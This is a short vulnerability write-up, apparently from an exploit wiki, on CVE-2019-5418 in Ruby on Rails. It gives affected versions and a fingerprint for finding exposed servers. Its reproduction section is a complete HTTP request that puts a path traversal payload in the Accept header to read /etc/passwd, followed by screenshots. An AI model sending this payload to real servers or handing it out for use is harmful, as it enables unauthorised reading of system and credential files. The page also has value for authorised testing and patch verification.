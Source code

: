 # Rails Accept Arbitrary file reading vulnerability CVE-2019-5418

## Vulnerability Description

Ruby on Rails is a web application framework, a relatively new web application framework built on the Ruby language. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Rail <= 5.2.2.1</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Ruby On Rails"</span>

## Vulnerability reappears

Main page

![img](https://cdn.nlark.com/yuque/0/2022/png/2117730/1656041292346-1069b91e-aa5e-4d53-821a-9150720e9b5e.png)

Verify the request package

```php
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd%7B%7B
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656045922866-e3e54d8e-a8a7-45e9-bdef-be60311151cb.png)